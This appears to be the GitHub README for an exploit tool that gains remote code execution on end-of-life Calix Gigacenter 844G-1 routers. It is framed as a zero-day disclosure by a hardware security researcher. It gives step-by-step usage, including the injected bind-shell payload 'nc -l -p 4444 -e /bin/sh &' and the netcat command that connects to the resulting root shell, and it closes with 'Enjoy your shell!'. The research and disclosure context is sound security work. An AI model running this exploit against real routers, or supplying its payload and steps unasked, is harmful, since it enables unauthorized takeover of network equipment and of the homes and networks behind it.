

# RCE-Calix-Gigacenter



Remote Code Execution (RCE) exploit targeting **Calix Gigacenter ONT routers**, specifically tested on the **Calix 844G-1** model. These routers are **End of Life (EOL)**, and this exploit takes advantage of a zero-day vulnerability discovered in **February 2025**.

This and four other zero-days will be publicly presented at **Recon 2025**, held in Montreal on **June 29, 2025**.

## ⚠️ Disclaimer
This tool is intended **only for educational and ethical hacking purposes**.  
Do not use it against any device without **explicit authorization**.  
The author is not responsible for any misuse.

## 🛠️ Installation

Only one dependency is required:

```bash
pip install requests
```

## How to Use

Run the exploit script:

```bash
python3 rce-calix-gigacenter.py
```

Once executed, the exploit will inject the following command into the vulnerable router:

```bash
nc -l -p 4444 -e /bin/sh &
```

You will see a message like:

```
Backdoor into the router, try to connect with netcat to the port 4444!
```

Then, connect to the reverse shell with `netcat`:

```bash
nc 169.254.1.2 4444
```

**Enjoy your shell!**

## Exploit Timeline

- **Zero-day discovered:** February 2025
- **Public disclosure:** June 29, 2025 at Recon Montreal
[demo-exploit](final-rce-poc.webm)

## Author
**Danilo Erazo** (`@revers3vrything`)  
Hardware Security Researcher and Speaker at:
- Hardwear.io USA 2025
- DEFCON 32
- Ekoparty 2024 & 2023
- Re//verse 2025, etc

© 2025 Danilo Erazo (@revers3vrything)